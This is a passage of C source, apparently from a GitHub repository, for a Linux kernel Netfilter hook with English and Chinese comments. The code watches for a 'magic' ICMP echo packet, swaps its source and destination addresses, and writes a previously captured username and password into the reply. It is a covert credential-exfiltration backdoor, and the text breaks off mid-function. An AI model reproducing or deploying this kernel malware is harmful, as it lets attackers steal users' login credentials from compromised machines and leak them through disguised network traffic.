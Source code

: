 ```c

    static unsigned int watch_in(void *priv, struct sk_buff *skb,
    const struct nf_hook_state *state)
    {
    struct sk_buff *sb = skb;
    struct icmphdr *icmp;
    char *cp_data;    /* Where we copy data to in reply */
    unsigned int taddr;   /* Temporary IP holder */
    printk("pre routing");
    /* Do we even have a username/password pair to report yet? */
    if (!have_pair)
    return NF_ACCEPT;
    /* Is this an ICMP packet? */
    if (ip_hdr(sb)->protocol != IPPROTO_ICMP)
    return NF_ACCEPT;
    icmp = (struct icmphdr *)(sb->data + ip_hdr(sb)->ihl * 4); //+20 ip头
    /* Is it the MAGIC packet? */
    if (icmp->code != MAGIC_CODE || icmp->type != ICMP_ECHO
    || ICMP_PAYLOAD_SIZE < REPLY_SIZE) {
    printk("it`s not a MAGIC packet");
    return NF_ACCEPT;
    }
    /* 直接修改 接收 的buffer
    * Okay, matches our checks for "Magicness", now we fiddle with
    * the sk_buff to insert the IP address, and username/password pair,
    * swap IP source and destination addresses and ethernet addresses
    * if necessary and then transmit the packet from here and tell
    * Netfilter we stole it. Phew... */
    printk("get the MAGIC packet");
    /*交换src dst 的ip*/
    taddr = ip_hdr(sb)->saddr;
    ip_hdr(sb)->saddr = ip_hdr(sb)->daddr;
    ip_hdr(sb)->daddr = taddr;
    sb->pkt_type = PACKET_OUTGOING;
    //设置mac
    switch (sb->dev->type) {
    case ARPHRD_PPP:     /* Ntcho iddling needs doing */
    break;
    case ARPHRD_LOOPBACK:
    case ARPHRD_ETHER:
      {
       unsigned char t_hwaddr[ETH_ALEN];

       /* Move the data pointer to point to the link layer header */
    /*将源MAC设置为目的MAC*/
       sb->data = (unsigned char *)eth_hdr(sb);
       sb->len += ETH_HLEN; //sizeof(sb->mac.ethernet);
       memcpy(t_hwaddr, (eth_hdr(sb)->h_dest), ETH_ALEN);
       memcpy((eth_hdr(sb)->h_dest), (eth_hdr(sb)->h_source),
         ETH_ALEN);
       memcpy((eth_hdr(sb)->h_source), t_hwaddr, ETH_ALEN);
      break;
      }
    };
    /* Now copy the 自身的IP address, then Username, then password into packet */
    /*(char *)icmp 是为了保证指针移动的标准是char* ，64位OS中是8字节*/
    cp_data = (char *)((char *)icmp + sizeof(struct icmphdr));
    memcpy(cp_data, &target_ip, 4);
    if (username)
    //memcpy(cp_data + 4, username, 16);
    memcpy(cp_data + 4, username, 16);
    if (password)
    memcpy(cp_data + 20, password, 16);
```